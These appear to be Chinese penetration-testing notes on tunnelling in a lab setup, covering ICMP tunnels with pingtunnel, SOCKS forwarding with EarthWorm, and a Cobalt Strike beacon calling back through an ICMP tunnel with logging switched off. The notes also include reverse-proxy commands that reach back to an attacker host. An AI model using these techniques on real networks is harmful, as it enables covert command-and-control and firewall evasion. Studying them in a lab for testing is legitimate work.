





## 1. 隧道技术

### 1.1. 概念

隧道技术是指在现有网络协议之上构建封装层，即将一种网络协议的数据包封装在另一种协议的数据包中进行传输。这一过程类似于将数据“装进隧道”，使其在通过复杂或受限的网络环境时，避免被识别、阻断或篡改。

**使用场景**：

- VPN（虚拟专用网络）
- 远程办公或远程控制
- 网络隔离环境中的通信穿透

### 1.2. 工作原理

- **数据封装**：将原始协议的数据包嵌套封装在另一种协议的数据包中，形成“隧道包”，以便在受限或异构网络中传输。
- **数据传输**：封装后的数据通过指定的隧道协议（如 TCP、UDP、HTTP、ICMP 等）进行传输。
- **数据解封装**：当数据到达隧道接收端时，外层协议被剥离，恢复出原始的数据包，并交由对应的应用或协议栈继续处理。

#### 1.2.1. 常见隧道协议

- **应用层**：SSH、HTTP/S、DNS
- **传输层**：TCP、UDP
- **网络层**：IPv6、ICMP


<mark style="background: #FFB8EBA6;">注意协议是向下兼容，如果 TCP 协议被禁用了，那么像基于 TCP 协议的 HTTP/S 协议也将不能用。</mark>

## 2. ICMP 隧道技术


ICMP 隧道技术将原本通过 TCP/UDP 协议传输的数据封装进 ICMP Echo 请求/响应（即 Ping 包）中进行传输，从而实现数据的隐蔽通信与防火墙穿透。

### 2.1. icmp 隧道实现

工具：[esrrhs/pingtunnel: Pingtunnel is a tool that send TCP/UDP traffic over ICMP](https://github.com/esrrhs/pingtunnel)

pringtunnel 程序本身不分客户端和服务端，只是使用的命令不同，所实现的功能就不同。

**相关命令**

```shell
# 开启服务端
pringtunnel -type server
# 开启客户端
# tcp转发
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -t SERVER_IP:4455 -tcp 1
# socks5转发
pingtunnel -type client -l LOCAL_IP:4455 -s SERVER_IP -sock5 1
```

**相关参数**

```shell
-key # password
-l # 本地的地址，发到这个端口的流量将转发到服务器
-s # 服务器的地址，流量将通过隧道转发到这个服务器
-t # 远端服务器转发的目的地址，流量将转发到这个地址
```

### 2.2. icmp 隧道访问 web



```shell
# win-client
pingtunnel -type client -l 127.0.0.1:1111 -s 192.168.11.128 -t 192.168.22.129:80 -tcp 1
# kali
pingtunnel -type server
```

### 2.3. icmp 隧道 CS 上线



**新建监听器**

- **监听器1** 用于生成木马，木马通过连接 127.0.0.1:800 上线
	
	
- **监听器2** 用于 cs 服务器监听，端口 2222
	

**生成后门**

使用监听器1 生成木马 `beacon_x86.exe`，将其复制到目标机


**开启隧道**

```shell
# cs-server
sudo ./pingtunnel -type server
# win
pingtunnel -type client -l 127.0.0.1:800 -s 192.168.22.128 -t 192.168.22.128:2222 -tcp 1 -noprint 1 -nolog 1
```

**运行木马**

上线成功


### 2.4. EarthWorm SOCKS 代理

EarthWorm 是一款用于开启 SOCKS v5 代理服务的工具，基于标准 C 开发，可提供多平台间的转接通讯，用于复杂网络环境下的数据转发。目前已经永久停止更新了。

下载：[idlefire/ew: 内网穿透(跨平台)](https://github.com/idlefire/ew)

ew 有 6 种链路状态：ssocksd（正向代理）、rcsocks（反向代理客户端）、rssocks（反向代理服务端）、lcx_slave、lcx_tran、lcx_listen

**参数**

```shell
-s ssocksd|rcsocks|rssocks|lcx_slave|lcx_tran|lcx_listen
-d # 反向连接主机地址
-e # 反向连接主机端口
-f # 连接主机地址
-g # 连接端口
```

**正向 socks 代理**



win-web 使用 HFS 开启 HTTP 服务


kali 开启 socks 代理

```shell
./ew -s ssocksd -l 3333
```

浏览器配置代理


访问 <http://192.168.22.129> 成功

**反弹 socks 代理**



同正向 socks 代理，win-web 使用 HFS 开启 HTTP 服务，
另外需要使用 ew 运行反向 socks 服务端

```batch
ew -s rssocks -d 192.168.22.128 -e 4444
```

kali-server 运行反弹 socks 客户端

```shell
sudo ./ew -s rcsocks -l 3333 -e 4444
```


win-client 浏览器配置代理


访问 <http://192.168.22.129> 成功

### 2.5. ew+icmp 隧道

> [!工具]
> **ew**: [idlefire/ew](https://github.com/idlefire/ew)
> **pingtunnel**: [esrrhs/pingtunnel](https://github.com/esrrhs/pingtunnel)
> **Proxifier**: [Proxifier](https://www.proxifier.com/)




kali-server 开启反向 socks 客户端和 pingtunnel 服务端

```shell
./ew -s rcsocks -l 3333 -e 4444
./pingtunnel -type server
```

win-web 开启反向 socks 服务端和 pingtunnel 客户端

```batch
pingtunnel -type client -l 127.0.0.1:1111 -s 192.168.22.128 -t 192.168.22.128:4444 -sock5 -1
ew -s rssocks -d 127.0.0.1 -e 1111
```


在 win-web 同网段开启另一台主机：CentOS，ip：192.168.22.130，开启 SSH 服务

win-client 使用 Proxifier 配置 SSH 代理

配置代理服务器、端口、协议


配置代理规则，添加 `ssh.exe`


使用cmd 命令行连接 CentOS

```batch
ssh root@192.168.22.130
```

连接成功


## 3. SMB 隧道技术

Windows 将命名管道通信封装在 SMB 协议中，此流量封装在 SMB 协议中，所以 SMB beacon 相对隐蔽。SMB beacon 不能直接生成可用载荷, 只能使用 PsExec 或 Stageless Payload 上线。
